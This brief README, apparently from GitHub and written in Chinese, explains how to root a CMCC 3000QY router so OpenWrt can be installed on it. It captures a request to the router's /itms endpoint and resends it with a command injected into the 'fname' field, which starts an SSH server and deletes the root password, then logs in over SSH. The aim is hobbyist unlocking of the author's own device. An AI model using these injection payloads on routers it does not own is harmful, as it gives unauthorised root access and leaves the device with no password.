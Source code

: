 # CMCC-3000QY-FLASH-OPENWRT
便宜买的刷openwrt

直接用Bp抓日志http://192.168.8.1/itms

重发"fname":"websys.log|/usr/sbin/dropbear -p 22"#开启22端口

重发"fname":"websys.log|passwd root -d"#删除密码（没必要反弹shell了）

ssh -o HostKeyAlgorithms=+ssh-rsa root@192.168.8.1 #免除ssh验证密码就是

vi /etc/config/dropbear #这里修改端口

/etc/init.d/dropbear enable #开机自启22

